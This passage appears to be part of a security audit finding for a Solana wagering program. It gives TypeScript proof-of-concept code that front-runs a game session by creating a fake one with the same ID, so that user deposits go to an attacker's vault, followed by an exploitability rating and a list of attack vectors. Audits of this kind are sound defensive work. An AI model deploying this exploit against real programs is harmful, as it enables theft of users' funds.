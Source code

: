 ```typescript
    async redirectUserDeposits(targetSessionId: string): Promise<void> {
        // 1. Monitor for users trying to join target session
        // 2. Front-run with fake session creation

        const fakeSessionKeypair = Keypair.generate();

        // 3. Create fake session with same ID
        await this.wagerProgram.methods
            .createGameSession(
                targetSessionId, // Same ID as legitimate session
                1, // Minimal bet to attract users
                GameMode.WinnerTakesAllFiveVsFive
            )
            .accounts({
                gameSession: fakeSessionKeypair.publicKey, // Fake session
                vault: this.fakeVault, // Attacker's vault
                gameServer: this.attackerKeypair.publicKey,
                systemProgram: SystemProgram.programId,
            })
            .signers([this.attackerKeypair, fakeSessionKeypair])
            .rpc();

        // 4. Users join fake session, funds go to attacker vault
    }

    private async createAttackerVault(): Promise<PublicKey> {
        // Create token account controlled by attacker
        return await createAccount(
            this.connection,
            this.attackerKeypair,
            this.tokenMint,
            this.attackerKeypair.publicKey
        );
    }
}
```

## ⚡ Exploitability Analysis

**Likelihood**: High (account validation is fundamental)
**Complexity**: Medium (requires understanding of account model)
**Prerequisites**:
- Knowledge of Solana account model
- Understanding of PDA derivation
- Ability to create fake accounts

**Attack Vectors**:
- [x] **Vault account substitution**
- [x] **Winner account manipulation**
- [x] **Session account hijacking**
- [x] **PDA constraint bypass**
